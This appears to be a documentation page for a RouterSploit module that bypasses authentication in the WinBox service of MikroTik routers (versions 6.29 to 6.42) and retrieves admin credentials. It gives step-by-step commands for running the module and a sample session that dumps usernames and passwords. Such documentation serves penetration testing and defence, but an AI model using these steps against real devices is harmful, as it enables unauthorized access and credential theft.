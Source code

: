 ## Description

Module bypass authentication through WinBox service in Mikrotik devices version from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) and retrieves administrative credentials.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable administrative credentials are returned.

## Scenarios

```
rsf > use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure
rsf (Mikrotik WinBox Auth Bypass - Creds Disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Mikrotik WinBox Auth Bypass - Creds Disclosure) > run
[*] Running module...
[*] Connection established
[+] Target seems to be vulnerable
[*] Dumping credentials

   Username     Password
   --------     --------
   user1        test
   admin        admin
   admin        admin

```
